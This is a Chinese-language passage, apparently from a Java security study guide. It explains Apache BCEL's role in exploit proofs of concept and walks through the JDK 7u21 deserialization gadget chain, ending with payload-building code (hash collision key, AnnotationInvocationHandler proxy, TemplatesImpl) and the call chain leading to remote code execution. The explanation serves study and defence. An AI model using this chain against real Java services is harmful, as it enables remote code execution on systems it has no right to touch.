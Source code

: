 BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目

该类常常用于各种漏洞利用POC的构造，可以加载特殊的字符串所表示的字节码

但是在Java 8u251之后该类从JDK中移除



### 谈谈7U21反序列化（★★★★★）[+]

从`LinkedHashSet.readObject`开始，找到父类`HashSet.readObject`方法，其中包含`HashMap`的类型转换以及`HashMap.put`方法，跟入`HashMap.put`其中对`key`与已有`key`进行`equals`判断，这个`equals`方法是触发后续利用链的关键。但`equals`方法的前置条件必须满足

```java
if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

所以这里需要用哈希碰撞，让下一个`key`的哈希值和前一个相等，才可进入第二个条件。而第二个条件中必须让前一个条件失败才可以进去`equals`方法，两个`key`对象不相同是显而易见的

接下来的任务是找到一处能触发`equals`方法的地方

反射创建`AnnotationInvocationHandler`对象，传入`Templates`类型和`HashMap`参数。再反射创建被该对象代理的新对象，根据动态代理技术，代理对象方法调用需要经过`InvocationHandler.invoke`方法，在`AnnotationInvocationHandler`这个`InvocationHandler`的`invoke`方法实现中如果遇到`equals`方法，会进入`equalsImpl`方法，其中遍历了`equals`方法传入的参数`TemplatesImpl`的所有方法并反射调用，通过`getOutputProperties`方法最终加载字节码导致RCE

关于7U21的伪代码如下

```java
Object templates = Gadgets.createTemplatesImpl();
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
ctor.setAccessible(true);
InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);
Templates proxy = (Templates) Proxy.newProxyInstance(exp.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
map.put(zeroHashCodeStr, templates);
return set;
```

结合调用链

```text
LinkedHashSet.readObject()
  LinkedHashSet.add()/HashMap.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
```
